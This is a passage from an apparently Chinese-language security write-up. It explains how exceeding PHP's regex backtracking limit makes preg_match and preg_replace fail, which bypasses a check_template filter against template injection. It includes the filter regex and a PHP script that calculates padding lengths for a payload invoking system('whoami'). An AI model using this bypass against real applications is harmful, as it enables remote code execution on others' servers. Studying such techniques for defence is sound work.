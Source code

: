 可以看到，在本正则中，回溯的次数与字符串中的数字部分长短有关，数据部分越长，发生回溯的次数就会越多。

如果数字部分的字符足够长，导致回溯次数过多，甚至会引发ReDos，php为了防止ReDos,给回溯次数设置了一个上限，当回溯次数超过了上限时，preg\_match会返回false,而preg\_replace会返回null。

![image-20240904182638569](https://shs3.b.qianxin.com/butian_public/f8594281158ab28ec4e5f653ac39c8629f02805fbc4f1.jpg)

绕过check\_template
-----------------

因此可以通过构造大量字符使得回溯次数超过上限来绕过check\_template的限制,回忆第三个正则如下

```php
    if(preg_match("~\\{\\$.+?\\}~s", preg_replace('~\\{\\$+[a-zA-Z_][a-zA-Z_0-9]*((?:-\\>|\\:\\:)\\$*[a-zA-Z_][a-zA-Z_0-9]*|\\[\s*\\$*([\'"]?)[a-zA-Z_ 0-9 ]+\\2\\]\s*)*\\}~', '', $template)))
    {
        return true;
    }
    //preg_replace将诸如"{$a}、{$a->bbb}、{$a[bbb]}、{$a[b][b][b]}"等字符替换为空
    //preg_match检测"{$(一个或多个任意字符)}"
```

因此只要构造足够长的垃圾字符，使得preg\_replace或者preg\_match达到回溯上限返回null/false,就可以绕过安全限制。

用如下脚本可以大概估算下各需要构造多长的payload。

```php
<?php

function checkMacth($preg_match_vaule) {
    $pattern ='~\\{\\$.+?\\}~s';
    $subject ='{$system("whoam"'.str_repeat(".''",$preg_match_vaule).'.'.'"i"'.')}';
    return preg_match($pattern,$subject);
}
$preg_match_vaule=1;

// 循环直到 preg_match_vaule 的结果为 false
for (; checkMacth($preg_match_vaule) !== false;$preg_match_vaule += 100){    
}
    echo "preg_match_vaule大概值: $preg_match_vaule\n";
//{$system("whoam".''.''.''."i")}

function checkReplace($preg_replace_value) {
    $pattern = '~\{\$+[a-zA-Z_][a-zA-Z_0-9]*((?:-\\>|\\:\\:)\\$*[a-zA-Z_][a-zA-Z_0-9]*|\\[\s*\\$*([\'"]?)[a-zA-Z_0-9 ]+\\2\\]\s*)*\\}~';
    $subject = '{$a'.str_repeat('[0]', $preg_replace_value).'}';
    return preg_replace($pattern, '', $subject);
}

$preg_replace_value = 1;

// 循环直到 preg_replace 的结果为 null
for (; checkReplace($preg_replace_value) !== null; $preg_replace_value += 100) {
    }
   echo "preg_replace_value大概值: $preg_replace_value\n";

//{$a[0][0][0][0]}
?>
```
